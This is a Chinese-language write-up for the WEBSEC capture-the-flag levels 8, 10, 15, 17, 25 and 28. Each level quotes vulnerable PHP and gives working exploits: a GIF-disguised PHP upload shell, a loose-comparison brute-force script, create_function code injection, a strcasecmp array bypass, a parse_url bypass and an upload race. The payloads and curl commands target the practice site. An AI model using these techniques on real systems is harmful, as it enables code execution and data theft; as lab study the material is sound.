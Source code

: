 ```yaml
---
title: WEBSEC-Writeup
date: 2018-09-04 11:47:34
tags:
---
```


# level8

```php
 <?php
 $uploadedFile = sprintf('%1$s/%2$s', '/uploads', sha1($_FILES['fileToUpload']['name']) . '.gif');

if (file_exists ($uploadedFile)) { unlink ($uploadedFile); }

if ($_FILES['fileToUpload']['size'] <= 50000) {
if (getimagesize ($_FILES['fileToUpload']['tmp_name']) !== false) {
if (exif_imagetype($_FILES['fileToUpload']['tmp_name']) === IMAGETYPE_GIF) {
move_uploaded_file ($_FILES['fileToUpload']['tmp_name'], $uploadedFile);
echo '<p class="lead">Dump of <a href="/level08' . $uploadedFile . '">'. htmlentities($_FILES['fileToUpload']['name']) . '</a>:</p>';
echo '<pre>';
include_once($uploadedFile);
echo '</pre>';
unlink($uploadedFile);
} else { echo '<p class="text-danger">The file is not a GIF</p>'; }
} else { echo '<p class="text-danger">The file is not an image</p>'; }
} else { echo '<p class="text-danger">The file is too big</p>'; }
?>
</div>
<?php endif ?>
```

这里使用`exif_imagetype`函数检测图片是否是GIF，该函数仅检查开头几个字节。

payload, 列目录:

```
GIF89
<?php 
	echo "shell"; $dr = @opendir('./');   
	while(($files[] = readdir($dr)) !== false);
   	print_r($files);?>
```

结果：

```
Array
(
    [0] => .
    [1] => uploads
    [2] => ..
    [3] => flag.txt
    [4] => source.php
    [5] => index.php
    [6] => php-fpm.sock
    [7] => 
)
```

查看flag.txt:

```
GIF89
<?php 
	var_dump(file_get_contents("flag.txt"));	
?>
```

# level10

```php
<?php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
$file = $_REQUEST['f'];
$request = $_REQUEST['hash'];

$hash = substr (md5 ($flag . $file . $flag), 0, 8);

echo '<div class="row"><br><pre>';
if ($request == $hash) {
show_source ($file);
} else {
echo 'Permission denied!';
}
echo '</pre></div>';
}
?>
```

知识点:

```shell
php > var_dump("0" == "0e251234");
bool(true)
php > var_dump("0" == "0e2abcde");
bool(false)
```

令`hash`为`0`。

通过构造 `f = '.' + '/' * i + 'flag.php'`,让后爆破即可。

```python
#!/usr/bin/python
# coding: utf-8
from requests import *
import sys
url = 'http://websec.fr/level10/index.php'
f = './flag.php'
i = 880
data = {
    'f': f,
    'hash': 0,
}
while True:
    i += 1
    r = post(url, data=data)
    if 'Permission denied!' in r.content:
        f = '.' + '/' * i + 'flag.php'
    else:
        print('[*] successful payload : {0}'.format(f))
        print(r.content)
        sys.exit(0)
```

# level15

```php
<?php
ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

$success = '
<div class="alert alert-success alert-dismissible" role="alert">
    <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
    Function declared.
</div>
';

include "flag.php";

if (isset ($_POST['c']) && !empty ($_POST['c'])) {
    $fun = create_function('$flag', $_POST['c']);
    print($success);
    //fun($flag);
    if (isset($_POST['q']) && $_POST['q'] == 'checked') {
        die();
    }
}
?>
```

`create_function`参数可控，可以代码执行。

payload: `echo 2;}echo $flag;/*`

> curl -v -d "c=%65%63%68%6f%20%32%3b%7d%65%63%68%6f%20%24%66%6c%61%67%3b%2f%2a" https://websec.fr/level15/index.php | grep -Eo "WEBSEC{.*?}"
>
> curl -v -d "c=echo 2;}echo \\$flag;/*&q=0" https://websec.fr/level15/index.php

# level17

```php
<?php
if (! strcasecmp ($_POST['flag'], $flag))
echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
else
echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
?>
```

传递数组即可绕过`strcasecmp`检测。

> curl http://websec.fr/level17/index.php -d "flag[]=" | grep -Eo "WEBSEC{.*}"

# level25

```php
<?php
    parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
    foreach ($query as $k => $v) {
    if (stripos($v, 'flag') !== false)
    die('You are not allowed to get the flag, sorry :/');
    }

    include $_GET['page'] . '.txt';
    ?>
```

`parse_url`绕过:

payload:

> curl http://websec.fr///level25/index.php?page=flag | grep -Eo "WEBSEC{.*}"

# level28

```php
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>
```

条件竞争:

1.php:

```php
<?php
        var_dump(file_get_contents("flag.php"));
```

上传文件:

>  curl https://websec.fr/level28/index.php -F "flag_file=@1.php" -F "submit=1"

然后不断访问: https://websec.fr/level28/53fdb7c766848a88eabc80476d3e42c6.php 即可。

